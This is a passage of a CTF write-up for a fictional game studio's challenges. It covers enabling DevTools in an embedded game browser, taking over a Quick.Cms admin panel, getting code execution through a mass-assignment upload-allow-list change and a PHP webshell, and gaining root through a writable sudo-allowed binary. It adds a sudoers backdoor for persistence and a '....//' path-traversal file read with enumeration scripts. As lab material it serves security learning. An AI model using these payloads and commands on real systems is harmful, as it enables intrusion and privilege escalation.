> [!WARNING] Warning
> Information on this page contains challenge details, solutions and payloads. Continue reading at your own risk.

This is my second attempt at one of these comprehensive write-ups the first one covered Holmes CTF 2026 and this time HKCERT decided I'd had enough of looking at other people's malware. The scenario revolves around a *(fictional)* game studio and its shipped title, `401Unauthorized`: the challenge set spans the game client itself, its web properties and the infrastructure behind them.

Before we start: this page only covers a selected slice of the **whole CTF**, split across three challenges the office CMS *(`Quick.Cms`)*, the `Development Log Viewer` room plus the pwn daemon hiding behind it and the `Legacy Auth` service. Other flags like hieroglyph dialogs, ghost disks, partial-content pcaps and an S3 bucket that only talks to IE6 are a story for another day.

And since this is full jeopardy instead of blue-teaming, the toolkit shifts accordingly: Burp Suite for the web bits, dnSpy for the game's .NET guts, pwntools and pwndbg for the pwn and a truly unreasonable amount of curl.

As always, a quick reference table:

| Challenge | Category | Tools used |
|---|---|---|
| Quick.Cms | WEB | YouTube, browser, Burp Suite, curl |
| Development Log Viewer | PWN / WEB | CDP DevTools, pwntools, pwndbg |
| Legacy Auth | WEB | Burp Suite, browser, PyMySQL sorcery |

# Patching the webview open

> "_When one door closes, another opens._" — Alexander Graham Bell

No flags in this section, just the single most load-bearing patch of the whole event. Quick.Cms, the Development Log Viewer: every room in this CTF game client is a page inside one embedded browser and the game client treats that browser like a museum exhibit.

You can click whatever the page renders and that is the entire list of privileges. No address bar. No browser controls. No right-click context menu. No DevTools. No fullscreen.

It's a Chromium-based headless browser that ONLY renders the displayed browser content lovely for immersion, miserable for "wait, how do I even get to `admin.php`". Call it problem zero.

## Pimp my UnityWebBrowser

The game client embeds UnityWebBrowser driving CEF, launched as a separate process *(`401Unauthorized_Data\UWB\UnityWebBrowser.Engine.Cef.exe`)*. Arguments passed to the game executable *(like `-remote-debugging 8088`)* do nothing.

The engine gets its own args from the game code and the `remoteDebugging` client option is hardcoded off. Exactly one managed DLL stands between us and a proper DevTools session:

1. **Close the game completely.** Windows locks loaded DLLs and saving while the game runs fails *silently*.
2. Back up `401Unauthorized_Data\Managed\VoltstroStudios.UnityWebBrowser.dll`
3. Open it in dnSpy and navigate to `VoltstroStudios.UnityWebBrowser.Core.WebBrowserClient → StartWithClaimedLayer()`


4. Right-click → **Edit Method (C#)** and insert at the very top of the method body *(before `if (!this.headless)`)*:

```csharp {linenos=inline}
this.remoteDebugging = true;                       // plain bool, not an enum
this.remoteDebuggingPort = 9022;                   // int; ctor default is 9022 anyway
this.remoteDebuggingAllowedOrigins = new string[] { "*" };  // needed by newer CEF
```


> [!IMPORTANT] Two gotchas while patching
> `DebuggingModes` does **not** exist in this build `remoteDebugging` is a plain `bool` (field signature `06 02`, ELEMENT_TYPE_BOOLEAN). And the `*` wildcard origin is mandatory, or Chrome refuses the DevTools WebSocket connection. The C# edit also compiles to recognisable IL fingerprints (`17 7D <fieldToken>` for the bool, `20 3E 23 00 00 7D <fieldToken>` for the port) if the saved DLL doesn't contain them, the save didn't take. Repeat step 5 with the game closed.

5. Click **Compile** *(it must say "successful compile")*, then **File → Save Module** over the same path.


Launch the game, enter any room with a webview page and confirm from PowerShell:

```powershell {linenos=inline}
(Get-CimInstance Win32_Process |
  Where-Object { $_.Name -eq 'UnityWebBrowser.Engine.Cef.exe' -and
                 $_.CommandLine -notlike '*--type=*' }).CommandLine
# we want: -remote-debugging 9022 -remote-debugging-allowed-origins *

Invoke-WebRequest -Uri 'http://127.0.0.1:9022/json/version' -UseBasicParsing
```

`http://127.0.0.1:9022` renders blank that's normal and so does `inspector.html`. Don't panic, nothing is broken; the target list is at `/json`:


Each entry carries its own `devtoolsFrontendUrl`:


Open the **local** frontend in your browser (`http://127.0.0.1:9022/devtools/inspector.html?ws=127.0.0.1:9022/devtools/page/<TARGET-ID>`), not the `chrome-devtools-frontend.appspot.com` one versions may mismatch.

Full Console, Network and Sources on the in-game page, same session cookie, same origin. *(WSL users: a quick `netsh interface portproxy` from 9023 to `127.0.0.1:9022` and you're set.)*

| Symptom | Fix |
|---|---|
| Engine cmdline has no `-remote-debugging` | Save Module didn't take close game, re-save, verify the IL bytes |
| Port not listening | Game/webview restarted with the old DLL confirm the file mtime changed |
| Frontend loads but the WS dies | Origins mismatch keep `remoteDebuggingAllowedOrigins = { "*" }` |
| `/json` is empty | Webview page not open yet enter the room first |

## What the patch grants you

An address bar and access to DevTools. The one thing the game client refused to ship and suddenly the webview goes where it's told `location.href = 'https://cms-<hash>.cgo.chal.sh/admin.php'` from the Console, `Page.navigate` if you'd rather speak protocol with cookies and session state intact.

Of the six flags on this page, five exist only because of this patch; the sixth *(Legacy Auth)* lives on a public URL and happily talks to Burp Suite.

Heres the entire process:


and the next section will show the patched webview in action.

# 1 - Upcoming Events

This part covers one target with three flags: logging into the office CMS as its *(very careless)* admin, turning the settings form into RCE and convincing sudo to hand us root. I liked this one a lot three completely different lessons on one very avoidable password.

## [WEB] Quick.Cms
> "_Passwords are like underwear: you don't let people see it, you should change it very often and you shouldn't share it with strangers._" — Chris Pirillo

Interacting with the Check Upcoming Events in-game drops us into a webview at `cms-<hash>.cgo.chal.sh` with a shiny `__Host-office_external` cookie.

Inside: a carousel post alternating between two event posters. One thing: the game client has no address bar and the page that renders is not `admin.php`. Normally that's where the story ends but the webview is [patched](#patching-the-webview-open) and "just type the URL" is back on the menu.

Keep in mind that every visit gets its own `cms-<32hex>` generation, but the credentials, the config and the failed-login lockout counter are **shared across ALL generations**. Rerolling the instance resets the scenery, not the state.

### Free intel on YouTube

The office is tiny, so the posters got the full treatment first. One of them carries a QR code and it points at a YouTube channel: `@404-unauthorized`. Subscribing *(yes, subscribing)* reveals an email: `contextgrave-admin@chal.sh`


> [!CAUTION] The posters themselves are a dead end
> Before the YouTube detour I was convinced the flag had to be hidden INSIDE the posters: every LSB plane, every channel and bit order, trailing data, extra chunks nothing. The intel was never in the image, it's where the image sends you.

Now, an email is not a password. But the patched address bar from [earlier](#patching-the-webview-open) can take us to exactly where kashz-jewels said the login lives and the admin is, well... let's just say someone set the password to `admin` and call it OSINT.


> [!CAUTION] Two wrong passwords and you're out (for 15 minutes)
> The failed-login lockout trips when `failed_logs > 2` and the counter like the config is shared across every `cms-<hash>` generation. Don't brute force this panel; luckily we never had to anyway.

Once inside, `admin.php?p=pages-form&iPage=1` opens the `Upcoming Events` page editor and the full-description field has been waiting for us:



`hkcert26{L0gg3d_1n_as_Adm1n!_e79571331aaac7fa7d7a47426b9561ff}` and this is our first step in the entire kill chain.

### Zero-day all the way

This is where the CMS stops being cute. The settings form *(`admin.php?p=settings`)* saves site configuration and Quick.Cms helpfully persists whatever fields arrive in the POST including ones the form never renders.

That is a textbook **mass assignment** and hidden among the internal config values sits `allowed_not_image_extensions`: the file manager's allow-list for non-image uploads.

> [!TIP] Know your CVEs before you reach for them
> Every public Quick.Cms 6.x CVE I could find needs admin auth to begin with (LFI, URI traversal, blind SQLi, language-deletion DoS...) and the ancient config-write RCE (EDB-49494 / CVE-2020-35754) is patched in 6.8 `saveVariables()` rewrites `"`, `\` and `$`, killing any quote breakout. Mass assignment needs none of those characters, which is exactly why it still works.

For the record, the homework I did before all of this: [kashz-jewels' Quick.Cms page](https://kashz.gitbook.io/kashz-jewels/services/quick-cms) offers default credentials (`admin@localhost.local:123456`) and points at EDB-49494 for v6.7, so I tried the combination play first.

Both bounced and v6.8 already killed the config-write injection 49494 abused. Which is how we end up holding a genuine zero day instead: no CVE number, no write-up just a settings form that trusts its input a little too much.

So: save settings normally once to capture the request, then replay it with one extra parameter appended.



Here is the actual capture, payload and all:

```http {linenos=inline, hl_lines=[8]}
POST /admin.php?p=settings HTTP/2
Host: cms-bb44e4cd35094aa6a8d11e8d51d86f77.cgo.chal.sh
Cookie: __Host-office_external=bMqOTCvQjoZZx-4UcHzrGGjL5L2DrOdwlynb-X3UWuk.dcfa535e4aae9b5a27580992eb6a70c91d4b5883686c64af115c9d5131682a9c; PHPSESSID=7039d3c13124f45c1b7adb9d6a2716ca; bLicense68=1; sEmail=contextgrave-admin%40chal.sh; bNoticesDisplayed=1; sSelectedTab=pages
Content-Length: 267
Content-Type: application/x-www-form-urlencoded

sCsrfToken=25ba91a7d566f27d71e52b2efe30c1174a60090cbe091d66575aaa9dee374114&start_page=1&login_email_new=&login_pass_new=&login_email_old=&login_pass_old=&display_homepage_name_title=null
&allowed_not_image_extensions=php
&name_of_config_variable_here=&sOption=save
```

No encoding tricks, no cleverness the CMS just believes you, answers with a flat `302` redirect and `database/config.php` quietly gains a `$config['allowed_not_image_extensions'] = "php";` line.

*(Bonus detail for template archaeologists: `display_homepage_name_title` and `name_of_config_variable_here` are literally Quick.Cms's commented-out *example* fields from the settings tab the challenge ships the demo, so the demo fields ride along in every save.)*


The three pieces of source that make all of this legal. First, the settings handler note what it doesn't remove:


```php {linenos=inline, hl_lines=[4, 6]}
// settings.php the whole "settings" feature
if( isset( $_POST['sOption'] ) ){
  checkCsrfToken( );
  unset( $_POST['login_email'], $_POST['login_pass'] );   // the ONLY two keys it removes
  ...
  saveVariables( $_POST, $config['dir_database'].'config.php' );   // everything else: trusted
  header( 'Location: '.$config['admin_file'].'?p=settings&sOption=save' );   // → our 302
  exit;
}
```

And `saveVariables()`, the function that turns POST keys into config lines:


```php {linenos=inline, hl_lines=[4, 6]}
// common-admin.php saveVariables() (abridged)
foreach( $aForm as $sKey => $sValue ){
  // for every line in config.php that looks like $config['<key>'] = ...
  if( preg_match( '/'.$sVariable."\['".$sKey."'\]".' = /', $aFile[$i] ) && strstr( $aFile[$i], '=' ) ){
    ...
    $aFile[$i] = "\$".$sVariable."['".$sKey."'] = \"".$sValue."\"".$mEndOfLine;
  }
}
```

So any POST key that matches an existing `$config['key'] = ` line in `config.php` gets rewritten with our value. The CSRF token checks out, the quotes get escaped and none of it matters, because we never needed to break out of anything.

We just had to name a config variable that exists and the challenge conveniently ships one that gates file uploads.


*(for completeness: `admin.php` is how `?p=settings` becomes executing code at all `require 'templates/admin/'.$_GET['p'].'.php'` after a `[a-z-]+` check.)*

With `.php` now on the allow-list, the file manager happily accepts a shell:


There are three ways to reach it: the upload success page, `admin.php?p=ajax-files-in-dir`, or `/files/` directly directory listing is enabled, which is adorable.


The webshell runs as `apache`, so let's run some commands:

``` {linenos=inline}
?cmd=find%20/
# /usr
# /usr/local
# ...
# /local.txt
```

A 64-byte, world-readable `/local.txt` sitting at filesystem root. Very generous.



`hkcert26{3xpl0it1ng_RCE_0_D4y_e4cf60a833d12a250123be84e8a925cf}` the second flag.

### sudo make me a sandwich

Now we are `apache` on an Alpine 3.24 pod under gVisor *(kernel `4.19.0-gvisor`)* with sudo 1.9.17p2 which politely rules out every kernel and sudo-version exploit under the sun. Time to hunt for a config flaw instead. The webshell's firstborn child:

```text {linenos=inline, hl_lines=[11]}
$ sudo -l
Matching Defaults entries for apache on cms-f3ce2d7aed68f7c0d5bd4948cc22e9c41871b1c4:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    env_keep+=LD_PRELOAD

Runas and Command-specific defaults for apache:
    Defaults!/usr/sbin/visudo
    env_keep+="SUDO_EDITOR EDITOR VISUAL"

User apache may run the following commands on cms-f3ce2d7aed68f7c0d5bd4948cc22e9c41871b1c4:
    (ALL) NOPASSWD: /var/www/localhost/htdocs/diagnostic_tool
```


*(The `env_keep+=LD_PRELOAD` default is a classic sudo vector and the visudo `SUDO_EDITOR/EDITOR/VISUAL` allow-list looks spicy, but neither is needed the command entry alone is the whole gift.)*

Read that again: sudo may run a binary that lives **inside our own webroot** the same directory the webshell can already write to. *(yes, the sudoers rule points into attacker-writable territory)*

```text {linenos=inline, hl_lines=[3]}
$ ls -la /var/www/localhost/htdocs/
...
-rwxrwxr-x  1 apache apache  ...  diagnostic_tool
...
```


Plan: overwrite `diagnostic_tool` with our own shell script and let sudo run it as root. The only obstacle is a quoting gauntlet between the browser bar and the target shell:

- `#` dies in GET parameters (fragment),
- `&` dies as a parameter separator,
- `!` dies to bash history expansion inside double quotes.

The fix is to drive the webshell with `curl -sG --data-urlencode` and escape the bang by hand:

```bash {linenos=inline}
curl -sG "$TARGET" -b "$COOKIE" --data-urlencode \
  "cmd=printf '#\!/bin/sh\nfind / -name \"*.txt\"\n' > /var/www/localhost/htdocs/diagnostic_tool && chmod +x /var/www/localhost/htdocs/diagnostic_tool"
```


Then trigger it through the webshell and here is the cute part: the sudoers rule matches a **relative** path. sudo canonicalises `../diagnostic_tool` against the cwd, the result lands on the allow-listed binary and everyone pretends that's fine:

```text
/files/shell.php?cmd=sudo+../diagnostic_tool
```


Every `*.txt` on the box comes back and two of them are very interesting:

```text {linenos=inline, hl_lines=[5, 6]}
/var/www/localhost/htdocs/plugins/valums-file-uploader/license.txt
/var/www/localhost/htdocs/plugins/tinymce/license.txt
/var/www/localhost/htdocs/HOW_TO_INSTALL.txt
/usr/share/X11/Xcms.txt
/root/proof.txt
/local.txt
```

Payload number two, same dance, one word different:

```bash {linenos=inline}
curl -sG "$TARGET" -b "$COOKIE" --data-urlencode \
  "cmd=printf '#\!/bin/sh\ncat /root/proof.txt\n' > /var/www/localhost/htdocs/diagnostic_tool && chmod +x /var/www/localhost/htdocs/diagnostic_tool"
```

```text
/files/shell.php?cmd=sudo+../diagnostic_tool
```



`hkcert26{C0mpr0mis1ng_m4ch1n4_w1th_LPE_4ca72ba98632b4c072933a76b228f9ab}` The final flag. Voilà!

For those interested in keeping the box: rewrite the payload once more to append `apache ALL=(ALL) NOPASSWD: ALL` to `/etc/sudoers` as root, re-trigger `?cmd=sudo+../diagnostic_tool`, then verify with `?cmd=sudo+-l` → `(ALL) NOPASSWD: ALL`. Every webshell command becomes root-capable from that point on.

*(footnotes for the curious: the root shadow hash is `*`, so nothing to crack; no crond is running, so no cron persistence; and pods are recycled per spawn the hostname hash changes, so filesystem edits are per-instance. Keep your payloads scripted.)*

And here's the final CMS kill chain from OSINT to LPE:



# 2 - Staff Tools

This part covers two solves that share one bug: the `[PWN]` Deploy Console buffer overflow *(and the source code it leans on)* and the `[WEB]` log-read traversal that made all of it possible and handed over its own flag while it was at it.

This room starts as a cute little log browser and ends with you hand-delivering 72 raw bytes to a pwn daemon over a WebSocket. I loved it.

## [WEB] Development Log Viewer
> "_Those who cannot remember the past are condemned to repeat it._" — George Santayana

The room ships a node/Express app *(`cyber-dir-explorer`, `server.js` in `/app`)* with two endpoints: `POST /api/list {path}` and `POST /api/read {path}`. `LOGS_ROOT` points at `/app/logs/2026-10-24` and the UI browses per-date log folders *("branches" like `development/`, `testing/`...)*.

All of this lives inside the game's webview the one [patched open](#patching-the-webview-open) and every Console-driven request below exists because of it.

### One strip too few

With DevTools attached, `/app/server.js` is a five-minute read *(yes, you can read the file containing the bug *through the bug* very satisfying)* and the whole thing is right there including the file's own critique of itself:

```javascript {linenos=inline, hl_lines=[3, 9, 13]}
// /app/server.js two endpoints, two philosophies (abridged)
app.post('/api/list', async (req, res) => {
    const resolvedPath = getSafePath(req.body.path);   // resolve() + startsWith(LOGS_ROOT)
    ...
});

app.post('/api/read', async (req, res) => {
    const resolvedPath = targetPath
        ? LOGS_ROOT + '/' + targetPath.replace(/\.\.\//g, '')
        : LOGS_ROOT;
    const stats = await fs.stat(resolvedPath);
    if (!stats.isFile()) {
        return res.status(400).json({ error: 'Target is not a valid log file.' });
    }
    ...
    const isText = Buffer.from(text, 'utf8').equals(bytes);
    // binary files (hello, code-review/log-deploy) ride home base64-encoded
});
```

There is a `getSafePath()` helper sitting right above, complete with a comment about preventing path traversal attacks and `/api/list` uses it. `/api/read`, for reasons known only to its author, rolls its own sanitizer instead. That sanitizer strips `../` exactly **once**, globally. So every `....//` collapses straight back into `../`. Classic. Since `LOGS_ROOT` is `/app/logs/2026-10-24`, a small prefix table is all we need:

| Prefix | Resolves to |
|---|---|
| `....//` | `/app/logs/` |
| `....//....//` | `/app/` |
| `....//....//....//` | `/` |

Arbitrary file read as uid 65532 (gid 0): `/etc/passwd`, `/proc/self/environ`, `/proc/self/cmdline`, `/app/server.js`, `/etc/hosts` all readable. And `/root`? The stat says EACCES:

```text
POST /api/read  {"path": "development/....//....//....//....//root/flag.txt"}
→ {"error":"... EACCES: permission denied, stat '/app/logs/2026-10-24/
development/../../../../root/flag.txt'"}
```

### Leaky Logs

Notice how the date is fixed to 2026-10-24? The first sweep only read `development/log.md` per date polite, single-branch behaviour. So I wrote two probe scripts and let the error messages do the enumeration:

A missing path answers ENOENT, an existing directory answers `Target is not a valid log file.` and a readable file answers with content. Three-way oracle, zero guesswork rigorous AND lazy, my favourite combination xD

```javascript {linenos=inline}
// THIS IS SCRIPT FOR PROBING DIRECTORIES FOR DEVELOPMENT LOG VIEWER CTF CHALLENGE

window.probe = async path => {
    try {
        return await (await fetch('/api/read', {
            method: 'POST',
            headers: { 'Content-Type': 'application/json' },
            body: JSON.stringify({ path })
        })).json();
    } catch (e) { return { error: 'network: ' + e.message }; }
};

(async () => {
    // valid 2026 dates only Date(y, m, 0).getDate() = days in month m
    const dates = [];
    for (let m = 1; m <= 12; m++) {
        const days = new Date(2026, m, 0).getDate();
        for (let d = 1; d <= days; d++)
            dates.push(`2026-${String(m).padStart(2, '0')}-${String(d).padStart(2, '0')}`);
    }

    // "....//" collapses to "../" server-side (single ../ strip), so each
    // payload resolves to /app/logs/<date>. An existing DIRECTORY answers
    // "Target is not a valid log file." (stat OK, isFile() false).
    const found = [];
    for (let i = 0; i < dates.length; i++) {
        const d = dates[i];
        const j = await probe(`....//${d}`);
        if (j.error?.includes('not a valid log file')) {
            found.push(d);
            console.log(`[+] /app/logs/${d}/`);
        } else if (j.error && !j.error.includes('ENOENT')) {
            console.log(`[!] ${d} ->`, j.error);          // anomaly: show, don't swallow
        }
        if ((i + 1) % 60 === 0) console.log(`... ${i + 1}/${dates.length} probed`);
    }

    window.dateList = found;
    console.log(`[*] done ${found.length}/${dates.length} dates exist: ${found.join(', ') || '(none)'}`);
})();
```

First run: four dates exist `2026-09-26`, `2026-10-03`, `2026-10-23`, `2026-10-24`:



Second script: with the dates pinned, walk every branch under every date and pull whatever answers:

```javascript {linenos=inline}
// THIS IS SCRIPT FOR PROBING DEVELOPMENT LOG VIEWER CTF CHALLENGE FILES

(async () => {
    const probe = async path => {
        try {
            return await (await fetch('/api/read', {
                method: 'POST',
                headers: { 'Content-Type': 'application/json' },
                body: JSON.stringify({ path })
            })).json();
        } catch (e) { return { error: 'network: ' + e.message }; }
    };

    const dates = ["2026-09-26", "2026-10-03", "2026-10-23", "2026-10-24"];
    const branches = ["code-review", "deployment", "development", "incident", "retrospective", "testing"];
    const files = ["log.md", "notes.md", "README.md", "summary.md"];   // extend freely
    const dirsFound = [], filesFound = [];

    for (const d of dates)
        for (const b of branches) {
            const dir = `....//${d}/${b}`;
            // "....//" collapses to "../" server-side (single ../ strip), so this
            // resolves to /app/logs/<date>/<branch>. A directory answers
            // "Target is not a valid log file." (stat OK, isFile() false).
            if ((await probe(dir)).error?.includes('not a valid log file')) {
                dirsFound.push(`${d}/${b}`);
                console.log(`[D] /app/logs/${d}/${b}/`);
                for (const f of files) {
                    const j = await probe(`${dir}/${f}`);
                    if (j.content) {
                        filesFound.push(`${d}/${b}/${f}`);
                        console.log(`[+] /app/logs/${d}/${b}/${f} (${j.content.length} chars)`);
                    } else if (j.error && !j.error.includes('ENOENT')) {
                        console.log(`[!] ${d}/${b}/${f} ->`, j.error);   // anything odd: show it
                    }
                }
            }
        }

    window.dirList = dirsFound;
    window.fileList = filesFound;
    console.log('\nDIRS :', dirsFound.join(', ') || '(none)');
    console.log('FILES:', filesFound.join(', ') || '(none)');
})();
```



And then the logs themselves handed me the hint, because of course they did. `2026-10-23/retrospective/log.md`:

```text {hl_lines=[4, 5, 6, 9, 10]}
# 2026-10-23 · retrospective/log.md (abridged)
* Strongly suspect no one on the team (or leadership) is actually reading
  any of these log files.
* To test this hypothesis, I literally embedded the full raw source code
  of our internal log-deploying utility program directly into one of the
  past daily log entries last month.
* Feel like I'm writing documentation into a void.
...
* Continue logging for compliance reasons (and maybe hide more source code
  or easter eggs in next week's entries to see how long the streak lasts).
```

Re-sweep `log.md` under EVERY branch, not just `development/`. That surfaces `2026-10-03/testing/log.md` a promo-code feature write-up for the `POST /api/v1/redeem-code` endpoint, ending with the test redeem code pasted verbatim:

```text {linenos=inline, hl_lines=[5, 6]}
# 2026-10-03 · testing/log.md (abridged)
- Developed Feature: Implemented the promotional redeem code feature,
  allowing users to claim rewards directly within the dashboard.
...
- Ensure team members test the feature using the test redeem code
  "hkcert26{l3ak1ng_c0nt3nts_w1th_LFI_e3682a3f4e18ee0f68b74690c8f59b5f}" to
  verify successful reward distribution and proper database logging.
```



`hkcert26{l3ak1ng_c0nt3nts_w1th_LFI_e3682a3f4e18ee0f68b74690c8f59b5f}` our 1st flag!

> [!IMPORTANT] /root/flag.txt is a decoy. Twice.
> Both containers carry a `/root/flag.txt` and neither is readable: the web pod runs as uid 65532 and the daemon pod as uid 1000, while `/root` is 0700 (its owner shows as `nobody`/65534 an unmapped host uid). An EACCES on stat is a permission wall, **not** proof that a file is worth reading. Everything interesting was in the logs all along.

## [PWN] Deploy Console

> "_Any fool can write code that a computer can understand. Good programmers write code that humans can understand._" — Martin Fowler

